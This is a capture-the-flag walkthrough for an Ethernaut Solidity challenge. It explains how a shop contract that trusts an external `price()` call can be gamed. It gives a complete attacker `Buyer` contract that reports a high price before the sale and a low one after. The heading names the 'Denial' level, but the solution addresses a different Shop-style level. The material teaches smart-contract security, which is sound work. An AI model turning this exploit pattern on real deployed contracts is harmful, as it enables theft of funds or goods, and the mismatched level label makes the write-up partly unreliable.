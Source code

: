 # Ethernaut Level 22 (Denial) Walkthrough

The following is a semantic solution walkthrough of the Ethernaut CTF level 22. The aim is to give a readable explanation of the concepts involved, and present a step-by-step walkthrough of the solution. In addition, tangential explanations will also be given where essential.

The lesson here is to be careful when writing logic depending on external contract functions.

#### Solution

The solution is simply to write a `Buyer` contract and implement the `price` and `buy` functions. Inside `price`, whose return value the target contract depends on, we can write our own malicious implementation that reads the target contract's `isSold` variable and changes return value based on that. Another way could be to rely on changes in gas value and change the return value mid- execution. I went with the former approach.

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.6.0 <0.9.0;


interface IBuyer {
  function price() external view returns (uint);
}

interface IShop {
  function buy() external;
  function isSold() external view returns (bool);
}

contract Buyer {
  IShop shop;
  constructor() public {
    shop = IShop(0x2bC579a23E7187C3025EaFe26E8909273eda880f);
  }

  function price() external view returns (uint) {
    return !shop.isSold() ? 101 : 1;
  }

  function buy() public {
    shop.buy();
  }
  }
```